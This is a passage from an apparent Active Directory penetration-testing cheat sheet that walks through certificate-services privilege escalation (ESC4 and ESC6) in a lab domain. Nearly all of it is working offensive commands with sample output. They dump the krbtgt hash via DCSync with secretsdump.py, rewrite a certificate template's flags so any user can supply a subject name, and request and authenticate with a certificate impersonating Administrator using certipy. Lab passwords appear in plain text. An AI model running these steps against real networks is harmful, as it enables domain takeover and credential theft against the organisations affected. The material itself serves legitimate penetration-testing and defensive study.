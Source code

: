 4. Now a ccache file should now be retrieved. Export the ccache file into `KRB5CCNAME` environment variable and [DCSync](#dcsync)
```bash
secretsdump.py range.net/rangeadm@10.8.0.2 -k -no-pass -just-dc -just-dc-user 'range\krbtgt'
```
_Note that you could also recover ntlm has with getnthash.py script_

### ESC4
This attack is possible when a low-privileged user has _Write Property_ or any other rights to modify template configuration to allow [ESC1](#esc1) attack to work. [modifyCertTemplate.py](https://github.com/fortalice/modifyCertTemplate) will be used in the following steps

1. Verify the vulnerable template with [certi]() 
```bash
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --enabled

# vulnerable template
[[..snip..]]
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
[[..snip..]]
```

2. Once vulnerable template has been verified. Modify the necessary requirements to proceed with [ESC1](#esc1) attack path
```bash
# msPKI-Certificate-Name-Flag = (0x1) ENROLLEE_SUPPLIES_SUBJECT
python3 modifyCertTemplate.py range.net/peter:'Welcome1234' -template ESC4 -value 1 -property msPKI-Certificate-Name-Flag -dc-ip 10.8.0.2
```

3. Now it should be vulnerable to [ESC1](#esc1)

### ESC6
This only applies to a CA that has an attribute `EDITF_ATTRIBUTEALTNAME2` in registry value. Registry path is at `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\range-CA01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy`. This attribute means that even when a template is configured to use an AD Object Subject Name, we could specify a Subject Alternative Name. This also means that all templates will be vulnerable

1. Find a vunlerable template with **certi**. The output of a vunlerable template to ESC6 will be as follows.
```bash
certipy find -u peter@range.net -p Password123 -dc-ip 192.168.86.183 -vulnerable -enabled -stdout
[[..snip..]]
ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
[[..snip..]]
```
2. Request a certificate with an Alternative Subject Name *(upn)*
```bash
certipy req -u peter@range.net -p Password123 -target ca01.range.net -ca 'range-CA01-CA' -template 'User' -upn 'Administrator@range.net'
```
3. Authenticate with the template retrieved.
```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.86.183
```

